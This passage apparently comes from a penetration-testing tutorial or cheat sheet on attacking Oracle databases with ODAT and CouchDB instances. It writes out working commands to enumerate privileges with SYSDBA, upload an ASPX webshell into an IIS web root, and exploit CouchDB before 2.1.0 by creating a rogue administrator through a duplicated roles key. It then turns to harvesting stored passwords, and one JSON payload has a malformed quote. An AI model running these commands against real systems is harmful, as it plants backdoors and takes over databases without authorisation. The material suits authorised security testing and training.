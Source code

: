 Or with ODAT

```
odat all -s ip -d SID -U username -P pass --sysdba
```

This will reveal the privileges of the user. Ideally we would want the capability to upload a webshell so let's assume that we can do that.

**Uploading a webshell**

```
odat dbmsadvisor -s ip -U username -P pass -d sid --putFile "c:\inetpub\wwwroot" "shell.aspx" "/home/kali/Desktop/shell.aspx" --sysdba
```

The above command can also be run with `dbmsxslprocessor` Then you can navigate to that webshell by accessing the iis server.

## Couch DB

Couch DB is a document-oriented database and it's ideal for web applications that handle huge amounts of loosely structured data.

### Enumeration and Exploitation of Couch DB

Interaction with couch DB can be done with curl tool from the command line.

#### Version enumeration

Lets say the database is running on port 5984

```
curl http://ip:5984
```

#### Enumerating columns and tables

```
curl http://ip:5984/_all_dbs
```

#### Exploiting known vulnerabilities

**Apache CouchDB < 2.1.0 - Remote Code Execution**

Exploit can be found below

```
https://www.exploit-db.com/exploits/44913
```

To do it manually, the command below will add a new user as #admin-attacker

```
curl -X PUT 'http://ip:5984/_users/org.couchdb.user:admin-attacker' –data-binary '{ ""type": "user", "name": "admin-attacker", "roles": ["_admin"], "roles": [], "password": "admin-attacker" }'
```

Then we can enumerate all existing users along with their passwords in the DB
